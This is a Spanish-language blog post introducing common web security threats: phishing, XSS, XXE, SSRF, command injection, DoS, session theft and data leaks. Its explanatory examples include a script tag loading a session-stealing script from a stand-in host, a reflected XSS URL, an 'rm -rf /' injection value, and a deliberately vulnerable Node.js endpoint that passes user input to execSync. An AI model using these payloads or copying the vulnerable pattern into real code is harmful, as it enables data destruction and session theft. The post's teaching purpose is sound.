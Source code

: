```yaml
---
title: "Seguridad en la web"
description: La seguridad web es la práctica de implementar medidas para proteger un sitio web haciendolo más díficil de vulnerar.
date: 2021-04-15
cover: https://res.cloudinary.com/marcomadera/image/upload/v1618515494/Blog/seguridad-web/security_2_prgizu.png
author: Marco Madera
tags:
  - Seguridad
  - Web
---
```


![Alerta mimic site a la derecha](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_271,w_319/v1618256076/Blog/seguridad-web/Ingenier%C3%ADa_social_yav5tv.png)

Te llega un correo electrónico que parece proceder de tu banco u otro servicio popular de internet como Google. Te solicita que confirmes información sensible sobre tu cuenta. El correo electrónico parece legítimo, ninguna señal de alerta del servicio de que el correo pueda ser peligroso o spam. El link parece muy realista tiene HTTPS, entonces das clic al link para saber más. Entras a la página, pero no carga porque te interrumpe una alerta del sitio y te das cuenta de que pudiste ser víctima de phishing.

## ¿Qué es la seguridad Web?

La seguridad web es la práctica de implementar medidas para proteger un sitio web haciéndolo más difícil de vulnerar. Es necesaria para proteger un sitio web contra el robo de datos y mantener una reputación con tus usuarios.

Existen muchas razones para que tu sitio web sea vulnerable, de las cuales vamos a poner unas cuantas sobre la mesa.

## Manejo de datos

La validación de datos es el paso que verifica las entradas de usuario. En este paso se asegura que los datos sean los requeridos para que puedan ser procesados correctamente y se ingresen en una base de datos.

Si no se hace correctamente este paso se pueden tener datos corruptos. Por ejemplo en tu lista de canciones favoritas de Spotify puede que tengas datos nulos o tener un usuario de Twitter sin nombre de usuario como es el siguiente caso.

<tweet id="1379691085514047490"/>

Un mal manejo de datos es una vulnerabilidad potencial. Enviar datos que no son necesarios al *frontend* puede ser un error por ejemplo si tienes un examen con la siguiente estructura.

```json
{
  test: [
    {
      question: "¿Qué url es más segura?",
      anwers: [
        {
          text: "https://googIe.com",
          correct: true,
        },
        {
          text: "http://www.google.com",
          correct: false,
        },
      ]
    },
  ],
}
```

Estos datos en el lado del cliente (*frontend*) pueden ser expuestos para revelar las respuestas correctas. Un mejor manejo podría ser que cada vez el usuario responda una pregunta se haga una petición al servidor para saber si es acertada la respuesta del usuario y actuar conforme al resultado. Similar si fueran números de tarjetas de crédito. Puede que no sea necesario enviar el número completo sino los últimos 4 dígitos si el usuario decide revelarlo o como sea conveniente.

## Cross-site scripting (XSS)

Tal vez te suene si has visto una alerta en algunos sitios web en la consola.

![Alerta xss](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_227,w_705/v1618249299/Blog/seguridad-web/self-xss_axzj76.png)

Esta es una vulnerabilidad de XSS y ocurre cuando se inyecta código en el cliente. Existe dos tipos: persistente y no persistente.

Imagina que la sección de comentarios de este post aceptara etiquetas HTML como la de `<script>`. Se pudiera comentar algo como lo siguiente: `<script src="http://sitioweb/robarsesiones.js">`. Entonces el script se ejecutará cada vez que alguien abra el post. Este es un tipo de ataque persistente porque está inyectado de manera permanente en el sitio web.

Un ejemplo no persistente sería si al tener un buscador no validar la query, permitir que la siguiente URL `https://marcomadera.com/search?q=<script%20type='application/javascript'>alert('xss');</script>` ejecute el código.

El siguiente ejemplo de crear un tweet que se hace retweet cada vez que aparece en pantalla, sería persistente en cuanto aparezca en el *feed* de una persona haría retweet por si solo.

<youtube id="zv0kZKC6GAM"/>

## XML External Entity (XXE)

Un ataque de entidades externas es el tipo de ataque que abusa del procesador de xml.

> Este ataque puede conducir a la divulgación de datos confidenciales, denegación de servicio, falsificación de solicitudes del lado del servidor, escaneo de puertos desde la perspectiva de la máquina donde se encuentra el analizador y otros impactos del sistema. - [Wikipedia](https://en.wikipedia.org/wiki/XML_external_entity_attack)

En el sitio *secrets of app security* hay un ejemplo claro de un ataque con saml para interceptar solicitudes y remplazarla con tu código [Ataque XXE](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html).

Puede que recuerdes el mensaje del punto negro de WhatsApp y iMessage. Este es un ataque de este tipo que tenía oculto múltiples entidades `&lrm;` que cambian la dirección del texto y que el procesador de xml no podía soportar. Otro ataque similar a este es el llamado [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) que usa entidades `&lol;`.

<tweet id="994230605859651584" caption="El mensaje contenía multiples entidades de dirección del texto &lrm, que sobrecargaban la memoría y hacía que la app dejará de responder" />

## Server-side request forgery (SSRF)

En este tipo de ataque el atacador abusa de la funcionalidad del servidor para utilizar los recursos internos de este.

En una situación normal el *frontend* de una tienda puede hacer llamadas al servidor para saber si un producto está disponible `http://storeapi.api/product/check`, el atacante hace peticiones al servidor modificando ese *endpoint*, por ejemplo al mismo `http://localhost/admin` abusando de la confianza.

<videogif title="Server Request" src="https://res.cloudinary.com/marcomadera/video/upload/v1618513408/Blog/seguridad-web/server_clic_twfhas.mp4"/>

## Inyección de comandos

Un ataque de inyección de comandos puede ocurrir porque el servidor no valida el input del usuario antes de usarlo en la línea de comandos.

El siguiente ejemplo es un lector de archivos vulnerable que devuelve el contenido del archivo, el usuario puede insertar algo como `"filename.pdf rm -rf /"` y borrar el contenido del servidor entero o dirigirse a una ruta `"../passwords"` provocando un ataque transversal de directorio.

```javascript
app.get('/viewer', (req, res) => {
  const { filename } = req.query;
  try {
    const stdout = childProcess.execSync('cat folder/' + filename);
    res.send(stdout.toString());
  } catch (err) {
    res.send(err.toString());
  }
});
```

## Ataque de denegación de servicio (DoS)

El objetivo de este ataque es la sobrecarga de los recursos del sistema para que sea inaccesible a los usuarios. La manera en que funciona es que satura los puertos con más datos de los que puede soportar, entonces al no poder con tantas solicitudes deniega el acceso a los demás usuarios.

Estos ataques son comunes por su facilidad de explotar. Existen servicios como Google Cloud Armor y CloudFlare para proteger el sitio web.

## Robo de sesión

Esta explotación es para un obtener acceso no autorizado a información o servicios regularmente teniendo acceso a las cookies y robándolas para así autenticarse.

<youtube id="UR_i5XSAKrg" />

## Filtración de datos

Este mes se puso a disposición para descargar datos de más de 500 millones de usuarios de Facebook, los datos se obtuvieron explotando una vulnerabilidad.

La legislación mexicana obliga a las empresas que tratan con datos personales, a notificar vulneraciones de los datos de los titulares.

> Las vulneraciones de seguridad ocurridas en cualquier fase del tratamiento que afecten de forma significativa los derechos patrimoniales o morales de los titulares, serán informadas de forma inmediata por el responsable al titular, a fin de que este último pueda tomar las medidas correspondientes a la defensa de sus derechos - [Artículo 20 - Ley federal de protección de datos personales en posesión de los particulares](http://www.diputados.gob.mx/LeyesBiblio/pdf/LFPDPPP.pdf)

Así como en esta vulnerabilidad mis datos se han visto comprometidos en otras 6 empresas como Bookmate, Nitro, Wattpad y YouNow. De ninguna he tenido ningún aviso para tomar alguna precaución. Por suerte existen páginas como [haveibeenpwned](https://haveibeenpwned.com/) donde te puedes enterar si has sido víctima de estas vulneraciones.

Otra filtración reciente fue sobre el funcionamiento del navegador de Brave en modo privado con Tor. El funcionamiento es que oculta tu identidad al navegar, pero el navegador enviaba las direcciones que visitabas al proveedor DNS en lugar de enviarlo a los servidores de Tor.

<tweet id="1362737949872431108" />

## Programas de recompensas

Algunas empresas tienen programas de recompensas para quienes encuentren vulnerabilidades en sus servicios.

- [Microsoft](https://www.microsoft.com/en-us/msrc/bounty-microsoft-identity?rtc=1)
- [Facebook](https://www.facebook.com/whitehat)
- [Google](https://www.google.com/about/appsecurity/reward-program/)

<tweet id="1366767274720329729" />

## Conclusión

Los riesgos en la seguridad web se pueden presentar en diferentes formas. Estos cambian rápidamente y se requiere revisar continuamente. Esta es una práctica continua durante todo el proceso donde se deben de mantener buenas prácticas de seguridad, actualizar librerias, analizar cómo mejorar los canales de desarrollo automatizando la seguridad para que no retrase el proyecto en desarrollo.
